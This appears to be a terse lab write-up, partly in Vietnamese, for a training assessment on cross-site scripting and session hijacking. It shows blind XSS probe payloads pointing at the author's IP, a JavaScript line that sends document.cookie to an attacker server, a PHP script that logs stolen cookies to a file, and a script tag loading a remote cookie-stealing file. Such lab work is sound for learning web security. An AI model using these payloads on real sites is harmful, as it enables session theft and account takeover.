

# Skill Assessment
Access the /assessment directory on the server using the browser.

Identify a user-input field that is vulnerable to an XSS vulnerability
Find a working XSS payload that executes JavaScript code on the target’s browser
Using the Session Hijacking techniques, try to steal the victim’s cookies, which should contain the flag
What is the value of the ‘flag’ cookie?


Truy cập /assessment -> tìm thấy các form nhập liệu:
- Search Form
- Comment form với các filed như email, name,website...
Chạy một PHP server để nhận request từ victim:
php -S 0.0.0.0:9000

Thử payload
```html
<script src="http://MyLocalIp:9000/comment"></script>
<script src="http://MyLocalIp:9000/name"></script>
<script src="http://MyLocalIp:9000/website"></script>
```
gặp lỗi:
Please fill the required fields (name, email)

"> vào name 

```js
new Image().src='http://MyLocalIp:9000/sess_hijack.php?c='+document.cookie;
```
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
<script src="http://10.129.14.166:237/steal-cookie.js"></script>
website field
boom@example.com 

